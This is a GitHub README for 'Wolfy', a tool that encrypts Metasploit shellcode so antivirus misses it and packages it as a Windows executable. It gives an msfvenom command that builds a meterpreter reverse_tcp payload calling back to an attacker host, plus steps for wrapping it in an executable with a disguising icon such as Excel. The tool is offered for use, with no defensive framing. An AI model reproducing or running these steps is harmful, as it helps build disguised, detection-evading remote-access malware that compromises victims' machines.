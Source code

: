 <h1 align="center">Wolfy AV Bypasser</h1> <br>

<p align="center"><img src="images/wolfy.png"></p>
<p align="center">Wolfy is a tool which bypass AVs by using a crypter + the tool Condor from mrempy/Condor</p>


# Features

* Custom shellcodes with metasploit
* AES Encryption
* Can be used in Linux and Windows

# Usage

```bash
python3 wolfy.py -h

usage: wolfy.py [-h] -s SHELLCODE [-i ICON] -n EXENAME

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        .bin shellcode file
  -i ICON, --icon ICON  icon of exe
  -n EXENAME, --name EXENAME
                        .exe name
```


### 1. Generate a shellcode with msfvenom following this structure ->

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.6 LPORT=443 -f raw -o shellcode.bin
```

**Note: You can generate whatever metasploit payload you want.**

### 2. Install the dependences

If you are in linux, execute `sudo bash install.sh`

If you are in Windows, execute `pip install pycryptodome pyinstaller tinyaes colorama Cython`

### 3. Run wolfy.py

```bash
python3 wolfy.py -s shellcode.bin -i excel -n myexename
```


# Special Thanks to mrempy

See
> [Condor](https://github.com/mrempy/Condor)
